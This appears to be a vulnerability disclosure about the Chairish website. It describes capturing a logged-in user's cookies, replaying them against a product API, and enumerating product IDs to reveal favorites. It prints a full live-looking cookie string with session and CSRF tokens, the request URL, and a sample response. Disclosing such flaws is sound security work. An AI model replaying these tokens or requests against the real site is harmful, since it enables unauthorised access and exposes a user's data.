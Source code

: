 # About Chairish Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie:_ga=GA1.1.1690917666.1712139383; _gcl_au=1.1.181369209.1712139383; _svsid=08f96362e41166b9c200319b1fd5d855; _fbp=fb.1.1712139383644.1516314480; _pin_unauth=dWlkPU1HVTFaalptTW1RdE5XVTFZeTAwTlRoa0xXRTVNV1F0TnpJME1HRXdNREUxTjJFMg; __attentive_id=edd29684a57641cfafeda12fddf7c948; __attentive_cco=1712139385197; _attn_=eyJ1Ijoie1wiY29cIjoxNzEyMTM5Mzg1MjQ0LFwidW9cIjoxNzEyMTM5Mzg1MjQ0LFwibWFcIjoyMTkwMCxcImluXCI6ZmFsc2UsXCJ2YWxcIjpcImVkZDI5Njg0YTU3NjQxY2ZhZmVkYTEyZmRkZjdjOTQ4XCJ9In0=; __attentive_ss_referrer=https://www.chairish.com/; __attentive_dv=1; csrftoken=k0oM9dFOK82Z330P1RvcfAtxWobL06ZT; sessionid=q3a7zq65hvqklg1fm53st5m0b9wzka22; guid=jleeuc; _uetsid=38ef2930f1a311eeb0ef6ff48e99f762; _uetvid=38ef2200f1a311ee87bb8d463e6aa81d; __attentive_client_user_id=jleeuc; __attentive_pv=2; PLPopupClosed=1; _ga_2N8GB7SB99=GS1.1.1712139382.1.1.1712139410.0.0.0; cpc=1; amplitude_id_1d2656bc9b05970f4174110ee401a478chairish.com=eyJkZXZpY2VJZCI6IjcxNjAxMGZkLTQxYjAtNDNmZC04YTAxLTVlYTBmNjAxMDcwMFIiLCJ1c2VySWQiOiJqbGVldWMiLCJvcHRPdXQiOmZhbHNlLCJzZXNzaW9uSWQiOjE3MTIxMzkzODIzNTEsImxhc3RFdmVudFRpbWUiOjE3MTIxMzk0MTE2NTUsImV2ZW50SWQiOjEyLCJpZGVudGlmeUlkIjo0LCJzZXF1ZW5jZU51bWJlciI6MTZ9; MCEvilPopupClosed=1
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: Product Collection Information.

> Request method: GET, information can be obtained by traversing the constructed Product ids,such as "3611090","2C4757355","2C4068476"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params |
|------|---|-|
| shhix|https://www.chairish.com/product/action-info?product_ids=3611090%2C4068476%2C4757355%2C13637478%2C13100959%2C15160373%2C15203492|product_ids=3611090%2C4068476%2C4757355%2C13637478%2C13100959%2C15160373%2C15203492|



### Leaked packet cases 
``` 
{
    "action_info": [
        {
            "id": 3611090,
            "is_favorited": true,
            "is_in_folder": false
        },
        {
            "id": 4068476,
            "is_favorited": true,
            "is_in_folder": false
        },
        {
            "id": 4757355,
            "is_favorited": false,
            "is_in_folder": false
        },
        {
            "id": 13637478,
            "is_favorited": true,
            "is_in_folder": false
        },
        {
            "id": 13100959,
            "is_favorited": true,
            "is_in_folder": false
        },
        {
            "id": 15160373,
            "is_favorited": true,
            "is_in_folder": false
        },
        {
            "id": 15203492,
            "is_favorited": true,
            "is_in_folder": false
        }
    ]
}

```